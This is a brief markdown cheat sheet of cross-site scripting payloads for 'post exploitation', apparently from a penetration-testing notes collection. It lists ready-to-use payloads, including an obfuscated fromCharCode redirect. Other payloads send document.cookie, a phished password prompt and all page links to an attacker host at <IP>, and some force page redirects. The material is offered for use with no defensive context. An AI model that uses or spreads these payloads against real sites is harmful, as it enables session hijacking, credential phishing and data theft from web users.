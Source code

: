 # Post Exploitation XSS

https://www.doyler.net/security-not-included/xss-phishing
https://hackvertor.co.uk/hvurl/45

```
c7zpn%3C/ScriPT%3E%3CSVg%20oNlOAD%20=%20eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,39,104,116,116,112,58,47,47,49,57,50,46,49,54,56,46,48,46,55,54,58,56,49,47,39))%3Ec7zpn
```

```
<img src=test onerror="this.src='http://<IP>?'+prompt('P@ss0wrdPleaaaasse');this.removeAttribute('onerror');">
```

```
<img src=test onerror="this.src='http://<IP>/sessionid?'+document.cookie;this.removeAttribute('onerror');">
```

### Get the Href in page (Case information disclosure in URL)
```
<img src=test onerror="this.src='http://<IP>/HREF?'+Array.from(document.querySelectorAll('a'));this.removeAttribute('onerror');">
```

### Change Location of the page

```
<script>document.location='http://<IP>/'</script>

<img src=x onerror="document.location='http:%2F%2F<IP>%2F';">
```